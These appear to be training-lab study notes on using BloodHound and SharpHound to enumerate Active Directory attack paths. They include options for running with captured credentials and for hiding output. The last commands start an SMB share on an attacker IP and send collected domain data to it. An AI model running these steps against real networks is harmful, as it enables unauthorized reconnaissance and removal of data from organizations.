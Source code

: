 ```
cd /usr/bin  
sudo ./neo4j console
```
## Active Directory Access Management
Active environments are highly complex and constantly evolving. So we need a way to automate the collection and analysis of this data.

### Bloodhound Overview
*Bloodhound* is an opensource tool used by attackers and defenders to analyze *Active Directory* domain security. This tool collects a large amount of data from an *Active Directory* domain.
It uses graph theory to visually represent the relationship between objects and identify domain attack paths that would be difficult/impossible to detect via traditional enumeration.

Data utilized by bloodhound is gathered with *SharpHound* collector.

### Bloodhound Graph Theory and Cypher Query Language
*Bloodhound* utilizes *Graph Theory* mathematical structures to represent pairs between objects. The graph is made up of *Nodes* (`Users, Groups, Computers, etc`) which are connected by *Edges* (`relationships between, i.e. member of group`). 

*Bloodhound* uses *Cypher Query Language* to analyze relationships. *Cypher* is *Neo4j's* `graph query language` which is like `SQL` for graphs.

The Diagram Below shows two nodes `A` and `B` 
![[2Nodes.png]]
This simulated User `Grace` being represented by node `A` and the group `SQL Admins`, the line between the two is the *edge* in this case `MemberOf`. 
We can ask bloodhound how to get from *Grace* to the *Domain admins* group.
![[NodeMap.png]]

*Bloodhound also had enterprise edition.*

## Sharphound
*Sharphound* is the program we use to collect *Bloodhound* data for *Windows*.
The data collected can be used to identify 

### Basic Enumeration
By default *Sharphound*, if run without any options, will identify the domain to which the user who ran it belongs to and will execute default collection.

The 2nd line in the output above indicates the collection method used by default: `Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote`. Those methods mean that we will collect the following:

1. Users and Computers.
2. Active Directory security group membership.
3. Domain trusts.
4. Abusable permissions on AD objects.
5. OU tree structure.
6. Group Policy links.
7. The most relevant AD object properties.
8. Local groups from domain-joined Windows systems and local privileges such as RDP, DCOM, and PSRemote.
9. User sessions.
10. All SPN (Service Principal Names).

To get the information for local groups and sessions, *SharpHound* will connect to each `domain-joined` *Windows* computer from the list of computers it collects.

## Using Bloodhound
1. Use *Sharphound*
2. Download .zip file
3. Go to *Bloodhound* > `Upload Data`
4. Once upload complete we can type `Domain:<DOMAIN>` into the search box  and a node
5. Now we can start analyzing the data.

### SharpHound Options
#### Collection Methods
`--colectionmethod` specifies what kind of data we want to collect. 

- *All* : performs all collection methods except *GPOLocalGroup*
- *DCOnly*: Collects data only from the domain controller and ill not try to get data from domain-joined Windows devices. It will collect `users, computers, security groups membership, domain trusts, absuble permissions on AD objects, OU structure, Group Policy, and the most relevant AD object properties.` It will attempt to correlate Group Policy-enforced local groups to affected computers.
- *Computer Only*: Opposite of *DCOnly*, it will collect information from domain-joined computers, such as user sessions and local-groups.

In situations where we may want to limit our traffic i.e. *Domain Controller* with 2000 Computers and a *SOC* as opposed to *Sharphound* attempting to connect to all of our devices, we could use *DCOnly* and only attempt to connect to the *Domain Controler*.

We can then add interesting machines to a list (`computers.txt`) and rerun *SharpHound* in *ComputerOnly* using the `--computerfile` options to only enumerate those computers.

![[sharhound.png]]
#### Commonly Used Flags
- `-ldapusername` `-ldappassword` options to run *SharpHound* using captured credentials.
- `-domain` Used to specify specific domains.
- `--domaincontroller` specific domain controller.

#### Randomize and hide SharpHound Output.
| **Option**          | **Description**                                               |
| ------------------- | ------------------------------------------------------------- |
| `--memcache`        | Keep cache in memory and don't write to disk.                 |
| `--randomfilenames` | Generate random filenames for output, including the zip file. |
| `--outputprefix`    | String to prepend to output file names.                       |
| `--outputdirectory` | Directory to output file too.                                 |
| `--zipfilename`     | Filename for the zip.                                         |
| `--zippassword`     | Password protects the zip with the specified password.        |
We can use the `--outputdirectory` to target a shared folder and randomize everything. 
##### Starting a shared folder
```shell-session
 sudo impacket-smbserver share ./ -smb2support -user test -password test
Impacket v0.10.1.dev1+20220720.103933.3c6713e3 - Copyright 2022 SecureAuth Corporation
```

##### Connect to the shared folder with username and password.
```cmd-session
net use \\10.10.14.33\share /user:test test
```
##### Running SharpHound and saving the output to a shared folder.
```cmd-session
SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames
```

### Session Loop Collection Method
